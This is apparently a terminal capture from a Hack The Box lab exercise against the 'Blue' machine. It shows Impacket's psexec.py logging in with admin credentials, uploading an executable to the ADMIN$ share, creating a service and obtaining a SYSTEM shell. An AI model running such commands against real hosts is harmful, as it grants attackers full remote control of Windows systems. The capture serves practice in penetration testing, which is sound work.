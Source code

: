 C:\Windows\system32>


root@kali:~/HTB/BLUE/AutoBlue-MS17-010# python /opt/impacket/examples/psexec.py WORKGROUP/admin:admin\@10.10.10.40
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.40.....
[*] Found writable share ADMIN$
[*] Uploading file EYrGMsRR.exe
[*] Opening SVCManager on 10.10.10.40.....
[*] Creating service XuvO on 10.10.10.40.....
[*] Starting service XuvO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>




